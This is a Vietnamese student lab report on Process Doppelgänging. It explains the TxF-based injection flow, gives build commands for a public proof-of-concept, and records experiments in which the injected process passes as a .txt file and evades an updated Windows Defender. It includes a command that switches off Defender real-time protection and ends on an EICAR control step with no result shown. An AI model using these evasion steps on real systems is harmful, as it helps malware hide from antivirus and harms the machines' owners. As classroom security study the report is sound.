# Lab 4

## Thông tin nhóm 
| Họ và Tên | MSSV | 
| -------- | -------- | 
| Nguyễn Văn Quốc Gia    | 24520415    |
| Trịnh Quang Minh    | 24521089    |

### D1. Tìm hiểu lý thuyết về Process Doppelganging
Process Doppelgänging là một trong những phương pháp Process Injection, cho phép tạo process độc hại mà không cần phải chạy file độc hại, lợi dụng cơ chế Windows Transactional NTFS(TxF) trên Windows 

Đầu tiên ta cần hiểu TxF 

TxF là một cơ chế thực hiện thao tác trên file an toàn: để đảm bảo tính toàn vẹn dữ liệu, TxF chỉ cho phép một handle ghi vào file tại một thời điểm, cho đến khi transaction ghi kết thúc thì tất cả handle khác bị cô lập khỏi writer và chỉ thấy được phiên bản đã commit trước đó. 

-> Tức cho phép tạo transaction thực hiện các hành động, transaction này sẽ là một unit nhỏ nhất, tức toàn bộ hành động được thực hiện(commit) hoặc không hành động nào được thực hiện cả (rollback). Cơ chế dùng lại ý tưởng khái niệm transaction trong môn Cơ sở dữ liệu chúng em đã học. 

Process Doppelgänging lợi dụng TxF để thực hiện process injection theo flow sau:
- TRANSACT: 
    - `CreateTransaction()`          → tạo TxF transaction
    - `CreateFileTransacted()`       → mở file hợp lệ trong transaction
    - `WriteFile()`                  → ghi đè mã độc vào file đó (chỉ nhìn thấy trong transaction)

    => Tạo một TxF transaction dùng file thực thi hợp lệ, sau đó ghi đè file bằng mã độc. Những thay đổi này bị cô lập — chỉ nhìn thấy trong phạm vi transaction, không ảnh hưởng file thật trên đĩa.
- LOAD: 
    - `NtCreateSection()`            → tạo section từ file đã ghi đè trong transaction

    => điểm quan trọng của kỹ thuật này là section được tạo ra lấy từ file trong transaction(file đã ghi đè thành độc hại)
- ROLLBACK: 
    - RollbackTransaction()        → hủy toàn bộ thay đổi trong transaction
    
    => file trên đĩa trở về sạch như ban đầu, nhưng section trong RAM vẫn còn chứa payload.
- ANIMATE: 
    - NtCreateProcessEx(hSection)  → tạo process từ section độc hại trong RAM ta đã tạo ở trên 
    - NtCreateThreadEx()           → tạo thread chạy process tạo ở trên 

### D2. Thực nghiệm không có Anti Virus 

#### Ý tưởng
Em dựng lại binary từ source rồi chạy trên máy Windows 10 đã tắt hẳn real-time protection. Ba thứ cần quan sát: tiến trình có chạy không, file độc hại có bị ghi ra đĩa không, tiến trình tự khai danh tính là gì.

**Máy và công cụ**

- **Máy victim**: Windows 10 Pro, `Version 10.0.10240` (bản 1507), 64-bit, tài khoản `me` thuộc nhóm admin
- **Ổ chứa `%TEMP%`**: NTFS, bắt buộc vì kỹ thuật dựa trên transaction của NTFS
- **Máy build**: Kali, biên dịch chéo bằng `mingw-w64`
- **Nguồn PoC**: https://github.com/hasherezade/process_doppelganging
- **Thư mục làm việc trên victim**: `C:\pd`

#### D2.1. Dựng lại hai binary trên Kali
Em build lại từ source thay vì lấy binary dựng sẵn. Hai chỗ phải sửa so với lệnh build trong tài liệu.

**Sửa tên header về chữ thường**

Linux phân biệt hoa thường còn Windows thì không, nên `#include <Windows.h>` và `#include <KtmW32.h>` trong source không tìm thấy file trên máy build.

**Thêm cờ `-municode`**

Lần đầu em build theo lệnh trong tài liệu thì khâu link hỏng:

```
crt0_c.c:18: undefined reference to `WinMain'
collect2: error: ld returned 1 exit status
```

`main.cpp` dùng `wmain` làm hàm vào chương trình. mingw chỉ nối đoạn startup cho `wmain` khi có cờ `-municode`.

**Payload phải ở GUI subsystem**

Em tự viết payload thay vì mượn `calc.exe`, để nó tự khai đang chạy dưới danh nghĩa nào. Payload gọi `GetModuleFileNameA`, ghi kết quả ra `C:\pd\proof.txt`, `Sleep` hai phút cho kịp quan sát, rồi gọi `MessageBoxA`. Em lấy `proof.txt` làm bằng chứng chính vì `setup_process_parameters` trong `process_env.cpp` không gán `StandardOutput` cho tiến trình mới, payload kiểu console sẽ không in được gì.

**[Kali]**: cần `sudo apt install mingw-w64` (đọc dòng `Remove:` trước khi gõ `Y`), kiểm bằng `which x86_64-w64-mingw32-g++`
```bash
git clone --depth 1 https://github.com/hasherezade/process_doppelganging.git
cd process_doppelganging
sed -i 's/#include <Windows.h>/#include <windows.h>/; s/#include <KtmW32.h>/#include <ktmw32.h>/' ntddk.h pe_hdrs_helper.h ntdll_undoc.h main.cpp util.h
x86_64-w64-mingw32-g++ main.cpp util.cpp ntdll_undoc.cpp pe_hdrs_helper.cpp process_env.cpp -o process_doppelganger.exe -municode -D_WIN32_WINNT=0x0600 -DWINVER=0x0600 -lktmw32 -lntdll -luserenv -static -mconsole -fpermissive -Wno-write-strings
x86_64-w64-mingw32-gcc payload.c -o payload.exe -mwindows -static -O2 -s -luser32
file process_doppelganger.exe payload.exe
sha256sum process_doppelganger.exe payload.exe
```

*Hình 1. Kiểu và hash của hai binary vừa dựng trên Kali.*
-> PoC là `PE32+ executable (console) x86-64`, payload là `PE32+ executable (GUI) x86-64`, SHA256 lần lượt là `d4c2d91a56a1568f7a5ce14c77ef97935618adf687f52491c858398f24f33f31` và `1e8274c844ea7a6607598329a4fdd804cb09c640e9146e706fbdaf1d715e5b37`


#### D2.2. Đưa file sang victim rồi kiểm toàn vẹn
Copy hai file vào `C:\pd` trên victim rồi so hash hai đầu.

**[Victim Win 10 - cmd]**
```bat
dir C:\pd\process_doppelganger.exe C:\pd\payload.exe
certutil -hashfile C:\pd\process_doppelganger.exe SHA256
certutil -hashfile C:\pd\payload.exe SHA256
```

*Hình 2. Hash của hai file sau khi đã nằm trên máy victim.*
-> hai chuỗi SHA256 trùng từng ký tự với hai dòng `sha256sum` ở Hình 1, file sang nguyên vẹn

#### D2.3. Tắt real-time protection
**[Victim Win 10 - PowerShell admin]**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpComputerStatus | Select-Object RealTimeProtectionEnabled,OnAccessProtectionEnabled,BehaviorMonitorEnabled,AntivirusSignatureVersion
```

*Hình 3. Trạng thái Defender sau khi tắt real-time protection.*
-> cả `RealTimeProtectionEnabled`, `OnAccessProtectionEnabled` và `BehaviorMonitorEnabled` đều về `False`


#### D2.4. Chạy PoC
Tham số thứ nhất là payload thật sẽ chạy, tham số thứ hai là đường dẫn mà tiến trình sẽ mang tên.

**[Victim Win 10 - cmd]**
```bat
cd /d C:\pd
echo day la file text binh thuong> C:\pd\target_file.txt
C:\pd\process_doppelganger.exe C:\pd\payload.exe C:\pd\target_file.txt
type C:\pd\proof.txt
```

*Hình 4. Kết quả chạy PoC khi máy không có AV.*
-> PoC in `[+] Process created!` rồi `[+] Done!`, hộp thoại payload hiện lên, và `proof.txt` ghi `GetModuleFileNameA = C:\pd\target_file.txt`


#### D2.5. Hệ điều hành khai tiến trình này là file gì
Cái đang chạy là payload, còn hệ điều hành gọi nó là gì.

**[Victim Win 10 - PowerShell admin]**
```powershell
Get-WmiObject Win32_Process -Filter "CommandLine LIKE '%target_file%'" | Select-Object ProcessId,Name,ExecutablePath,CommandLine
```

*Hình 5. Danh tính tiến trình theo WMI.*
-> cột `Name` bỏ trống, `ExecutablePath` và `CommandLine` đều là `C:\pd\target_file.txt`


#### D2.6. Kiểm xem file độc hại có được ghi ra đĩa không
Em so hash `target_file.txt` ngay trước và ngay sau một lần chạy.

**[Victim Win 10 - cmd]**
```bat
certutil -hashfile C:\pd\target_file.txt SHA256
C:\pd\process_doppelganger.exe C:\pd\payload.exe C:\pd\target_file.txt
type C:\pd\proof.txt
dir C:\pd\target_file.txt
certutil -hashfile C:\pd\target_file.txt SHA256
```

*Hình 6. Trạng thái file đích trước và sau một lần chạy.*
-> hai chuỗi hash giống hệt nhau, `dir` vẫn báo `30` byte với dấu thời gian cũ, trong khi `proof.txt` chứng minh payload đã chạy thật


#### D2.7. Dấu vết transaction để lại
**[Victim Win 10 - PowerShell admin]**
```powershell
Get-ChildItem $env:TEMP -Filter "TH*.tmp" | Sort-Object LastWriteTime | Select-Object Name,Length,LastWriteTime
```

*Hình 7. File tạm mà transaction bỏ lại sau mỗi lần chạy.*
-> mỗi lần chạy sinh một file `TH*.tmp`, tất cả đều có `Length` bằng 0

Payload được ghi vào file tạm trong `%TEMP%` mở bằng `CreateFileTransactedW`. PoC tạo section ảnh từ file đó rồi `RollbackTransaction`, nên trên đĩa chỉ còn file rỗng. Đường dẫn `target_file.txt` nằm trong `RTL_USER_PROCESS_PARAMETERS` ở hai trường `ImagePathName` và `CommandLine`, nên công cụ đọc tên tiến trình lấy ra file txt.


=> khi không có AV, kỹ thuật chạy trọn vẹn: payload thực thi, không có file độc hại nào nằm lại trên đĩa, API khai danh tính đều trả về một file `.txt`

### D3. Thực nghiệm có Windows Defender 

#### Ý tưởng
Em bật lại real-time protection trên máy đó, chạy lại hai file đó, rồi hỏi Defender bằng ba đường: quét chủ động, lịch sử phát hiện, nhật ký sự kiện. Thêm một phép đối chứng, vì Defender không bắt được và Defender không làm việc cho ra cùng một màn hình trống.

#### D3.1. Cập nhật Defender rồi bật lại real-time protection
Đề yêu cầu Defender bản cập nhật mới. Máy ảo không ra được internet nên em dùng gói định nghĩa offline `mpam-fe.exe` của Microsoft thay cho `MpCmdRun -SignatureUpdate`.

**[Victim Win 10 - PowerShell admin]**
```powershell
C:\pd\mpam-fe.exe
Set-MpPreference -DisableRealtimeMonitoring $false
Get-MpComputerStatus | Select-Object AMEngineVersion,AntivirusSignatureVersion,AntivirusSignatureLastUpdated,RealTimeProtectionEnabled,OnAccessProtectionEnabled,BehaviorMonitorEnabled
(Get-MpPreference).ExclusionPath
```

*Hình 8. Trạng thái Defender trước khi chạy lại thí nghiệm.*
-> ba cột bảo vệ đều `True`, `AMEngineVersion` là `1.1.26100.4`, `AntivirusSignatureVersion` là `1.463.443.0` cập nhật ngày `11/23/2026`, và `ExclusionPath` không in ra gì

`ExclusionPath` phải trống, vì `C:\pd` nằm trong danh sách loại trừ thì Defender bỏ qua cả thư mục.

#### D3.2. Chạy lại PoC khi Defender đang bật
**[Victim Win 10 - cmd]**
```bat
cd /d C:\pd
del /f /q C:\pd\proof.txt
C:\pd\process_doppelganger.exe C:\pd\payload.exe C:\pd\target_file.txt
type C:\pd\proof.txt
```

*Hình 9. Chạy PoC với Defender đang bật đủ ba lớp bảo vệ.*
-> vẫn `[+] Process created!` rồi `[+] Done!`, hộp thoại payload hiện lên, `proof.txt` ghi `GetModuleFileNameA = C:\pd\target_file.txt`, không có cảnh báo nào của Defender nhảy ra

Xoá `proof.txt` trước khi chạy để nội dung đọc được chắc chắn là của lần này.

#### D3.3. Bắt Defender quét thẳng vào hai file
**[Victim Win 10 - cmd]**
```bat
"C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File C:\pd\process_doppelganger.exe
"C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File C:\pd\payload.exe
```

*Hình 10. Quét chủ động từng file một.*
-> cả hai lượt đều kết thúc bằng `found no threats`

#### D3.4. Đối chứng: thả file thử chuẩn vào cùng thư mục
Ba bước trên mới cho thấy Defender im lặng. Em thả vào đúng `C:\pd` file thử chuẩn EICAR, thứ mà mọi AV đều phải bắt.

**[Victim Win 10 - PowerShell admin]**
```powershell
$p1 = 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-'
$p2 = 'ANTIVIRUS-TEST-FILE!$H+H*'
Set-Content -Path C:\pd\eicar_test.txt -Value ($p1 + $p2) -Encoding Ascii -NoNewline
Start-Sleep -Seconds 12
Test-Path C:\pd\eicar_test.txt
Get-MpThreat | Select-Object ThreatName,SeverityID
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Windows Defender/Operational'; Id=1116,1117; StartTime=(Get-Date).AddHours(-8)} | Select-Object TimeCreated,Id
```
